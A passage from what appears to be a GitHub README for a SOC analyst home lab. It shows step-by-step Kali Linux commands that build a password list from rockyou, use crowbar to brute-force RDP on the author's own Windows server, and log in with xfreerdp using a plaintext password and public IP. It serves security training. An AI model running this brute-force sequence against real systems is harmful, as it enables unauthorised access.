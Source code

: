   ```bash
     *For this project, we needed to edit the group policy of local accounts.*

2. Log in to your Kali Linux VM
   - Open a command prompt
   - Use: `cd /usr/share/wordlists`
   - Use: `ls`
   - Unzip the file named `rockyou.txt.gz`
     - Use: `sudo gunzip rockyou.txt.gz`
     - Enter password
   - Let's look in the file  
     - Use: `cat rockyou.txt.gz | less`  
     *You can see the most common passwords.*


![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/Screenshot%202024-10-08%20143410.png)



   - Use: `head – 50 rockyou.txt > /home/kali/mydfir-wordlist.txt`
     *Only use the first 50 passwords in the file.*
   - Add the password you used for your Windows Server to the list  
     - Use: `nano mydfir-wordlist.txt`  
     *Enter your password*  
     - `Ctrl x`, `Ctrl y`
   *This wordlist will be used to brute force the Windows Server.*

   - Update the repositories
     - Use: `sudo apt-get update && sudo apt-get upgrade -y`
   - To fix repositories: 
     - Use: `sudo apt install gnupg`

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/Screenshot%202024-10-07%20191823.png)

   - Install crowbar  
     Use: `sudo apt-get install -y crowbar`

   - Check to see if crowbar successfully installed  
     Use: `crowbar -h`

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/Screenshot%202024-10-07%20191812.png)



     
   - Create a new file  
     *Copy the Windows server IP address from Vultr.*  
     Use: `nano target.txt`  
     - Input: `ip address from windows server, username`
       - `Ctrl x`, `Ctrl y`, `Enter`

   - Target VM  
     Use: `crowbar -b rdp -u Administrator -C mydfir-wordlist.txt -s (windows public address)/32`  
     *(`-b = rdp service, -u = user, -C = what you will try to authenticate with, -s = target IP address, /32 = only this IP address)*

   - Use the tool xfreerdp to connect to the Windows server  
     Use: `xfreerdp /u:Administrator /p:Winter2024! /v:144.202.56.135:3389`
   - You can see a FreeRDP window pop up  
     *You are now connected to the Windows server by using brute force with Kali Linux.*

  ```